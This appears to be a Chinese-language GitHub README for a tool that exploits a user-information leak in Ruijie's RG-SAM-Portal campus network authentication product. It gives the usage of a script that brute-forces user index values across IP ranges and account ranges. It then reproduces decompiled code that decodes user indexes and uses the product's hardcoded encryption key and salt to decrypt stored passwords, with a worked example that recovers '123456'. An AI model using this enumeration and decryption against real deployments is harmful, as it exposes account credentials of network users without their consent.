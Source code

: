# ePortalGetPass

Ruijie RG-SAM-Portal 用户信息泄露漏洞
```
usage: user_index_blasting.py [-h] [-p PREFIX] [-i IP] [-c CONCURRENT] [-s SID] [-n NUM]

options:
  -h, --help                                    show this help message and exit  
  -p PREFIX, --prefix PREFIX                    userindex前缀  
  -i IP, --ip IP                                指定ip段  
  -c CONCURRENT, --concurrent CONCURRENT        并发数量  
  -s SID, --sid SID                             开始爆破的起始账号  
  -n NUM, --num NUM                             要爆破账号的数量  
```

## 关键代码

* `jboss\server\default\deploy\eportal.war\WEB-INF\classes\com\ruijie\webportal\service\helper\UserHelper.getOnlineUserByUserIndex`
```java
public static byte[] hexStringToBytes(String hexStr, String prefix) {
    if (hexStr == null || prefix == null) throw new NullPointerException();
    String myHexStr = hexStr.trim();
    if (myHexStr.startsWith(prefix)) myHexStr = myHexStr.substring(prefix.length());
    int myHexStrLen = myHexStr.length();
    byte[] ba = new byte[myHexStrLen / 2];
    for (int i = 0; i < myHexStrLen; i += 2) {
        int vi = Integer.parseInt(myHexStr.substring(i, i + 2), 16);
        if (vi > 128) vi -= 256;
        ba[i / 2] = (byte) vi;
    }
    return ba;
}
String userIndex = "64623132613537653238383035353562343534663661383564393134313831395f31302e3130302e36342e315f323130323230303030";
userIndex = new String(hexStringToBytes(userIndex, ""));
System.out.println(userIndex); // db12a57e2880555b454f6a85d9141819_10.100.64.1_210220000
```

* `jboss\server\default\deploy\selfservice.war\WEB-INF\lib\rgspl-common\com\ruijie\spl\common\crypt\SamJce`
```java
encryptPbeCipher = null;
decryptPbeCipher = null;
private static char[] samKey = new char[] { '1', '2' };
public static void initJce() {
    byte[] salt = { -57, 115, 33, -116, 126, -56, -18, -103 };
    PBEParameterSpec pbeParamSpec = new PBEParameterSpec(salt, 20);
    SecretKeyFactory keyFac = SecretKeyFactory.getInstance("PBEWithMD5AndDES");
    SecretKey pbeKey = keyFac.generateSecret(new PBEKeySpec(samKey));
    encryptPbeCipher = Cipher.getInstance("PBEWithMD5AndDES");
    decryptPbeCipher = Cipher.getInstance("PBEWithMD5AndDES");
    encryptPbeCipher.init(1, pbeKey, pbeParamSpec);
    decryptPbeCipher.init(2, pbeKey, pbeParamSpec);
}
public static synchronized String encrypt(String code) {
    return bytesToHexString(encryptPbeCipher.doFinal(code.getBytes()),""); 
}
public static synchronized String decrypt(String code) {
    return new String(decryptPbeCipher.doFinal(hexStringToBytes(code, ""))); 
}
initJce();
System.out.println(decrypt("68a9d05959330e4e")); // 123456
```

## 参考
* [admintony/ePortalGetPass](https://github.com/admintony/ePortalGetPass)
* [校园网认证系统-RG-SAM-Portal组件-用户信息泄露漏洞](http://admintony.com/校园网认证系统-RG-SAM-Portal组件-用户信息泄露漏洞.html)

